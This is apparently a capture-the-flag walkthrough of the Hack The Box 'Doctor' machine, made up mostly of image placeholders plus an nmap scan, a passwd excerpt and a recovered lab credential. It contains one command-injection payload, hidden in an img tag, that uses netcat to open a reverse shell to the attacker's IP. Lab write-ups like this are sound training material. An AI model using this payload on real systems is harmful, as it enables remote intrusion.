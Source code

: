 # DOCTOR

![](../.gitbook/assets/7502ce5b83f54ce299d078d572d8562a.png)

## NMAP SCAN

```text
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)
|_  256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (92%), Linux 5.0 - 5.4 (91%), Linux 5.3 - 5.4 (91%), Linux 2.6.32 (91%), Linux 5.0 (90%), Linux 5.0 - 5.3 (90%), Linux 5.4 (90%), Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   32.16 ms 10.10.14.1
2   32.41 ms 10.10.10.209
```

## PORT 80 ENUMERATION

![](../.gitbook/assets/211aa9c2259942d7a4920fa414ebfcae.png)

* doctors.htb \(ADD TO YOUR HOSTS\)

![](../.gitbook/assets/4432a44aba5c455f837385ab696927f1.png)

![](../.gitbook/assets/0290ed51313a45c7b97abaa2f6ff6aaf.png)

![](../.gitbook/assets/56967dbec6604017b3738d6a87cf338c.png)

![](../.gitbook/assets/4f76907c993142b7875726cb1961f31f.png)

[https://sentrywhale.com/documentation/reverse-shell](https://sentrywhale.com/documentation/reverse-shell) 

![](../.gitbook/assets/4a23f388005a452d8861df890b28f136.png)

```text
<img src=http://10.10.14.17/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.10.14.17'$IFS'4445')>
```

![](../.gitbook/assets/cbbca4245ea5482cad935ec8ca6738d9.png)

![](../.gitbook/assets/b9f5a56e11e84d7798a9cdfd800f2781.png)

## MACHINE ENUMERATION

```text
root:x:0:0:root:/root:/bin/bash 
... 
shaun:x:1002:1002:shaun,,,:/home/shaun:/bin/bash 
splunk:x:1003:1003:Splunk Server:/opt/splunkforwarder:/bin/bash
```

![](../.gitbook/assets/559bc0a6d60a463ea525e6afba6d0b3a.png)

![](../.gitbook/assets/fed740f88d6f4e6280d350b071cc7e6e.png)

## LATERAL MOVEMENT

![](../.gitbook/assets/099c06fc79f943b1a2dc72eaf8421450.png)

## PORT 8089 EXPLOIT

![](../.gitbook/assets/fa9a444b1c6d4b6b9c2b461836fec898.png)

![](../.gitbook/assets/844ef465b4db4bceadd9c159e011bac5.png)

![](../.gitbook/assets/0c84435029f84f7a946a14657adddb9f.png)

![](../.gitbook/assets/1fa90837e4a44441bc8fa393ece7f739.png)

## PRIVESC ROOT

![](../.gitbook/assets/b4933dc3bd5e46e484f83ecbabeefd26.png)

![](../.gitbook/assets/7f415ba9819d460abdbde806ee397ce6.png)

![](../.gitbook/assets/ef0d1da876cc4d198f5ab73a55e941fb.png)

![](../.gitbook/assets/811277874e1e4b5baf91759c8c220064.png)

![](../.gitbook/assets/40d3632525f84bbab1d5152cfbc5edb8.png)

## CREDS

```text
shaun:Guitar123
```

![](../.gitbook/assets/f32977a349284be88d518e76148423c6.png)

